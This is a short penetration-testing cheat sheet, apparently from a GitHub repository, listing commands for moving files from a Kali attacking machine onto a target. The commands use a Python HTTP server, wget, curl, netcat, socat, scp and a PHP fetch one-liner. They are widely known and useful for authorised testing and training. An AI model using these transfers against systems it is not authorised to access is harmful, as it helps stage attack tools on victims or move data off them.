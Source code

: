 Kali Machine(Attacking machine)- We need to start the http server to serve the files so that other systems can access it.

HTTP Server
```bash
python -m SimpleHTTPServer 80
python -m http.server 80
```

Wget
```bash
wget http://192.168.1.2/filename.txt
```

Curl
```bash
curl http://192.168.1.2/filename.txt -o filename.txt
```

Netcat

Target Linux
```bash
nc -nlvp 4444 > outputfile.exe
```
Kali
```bash
nc -nv 192.168.1.2 4444 < /usr/inputfile.exe
```

Socat
Kali
```bash
socat TCP4-LISTEN:443,fork file:file.txt
```
Target Linux
```bash
socat TCP4:192.168.1.2:443 file:file.txt,create
```

SCP
```bash
scp /source/path/file.zip username@192.168.1.2:/destination/path/file.zip
```

PHP
```bash
echo "<?php file_put_contents('filename', fopen('http://192.168.1.2/filename', 'r')); ?>" > filename.php
```
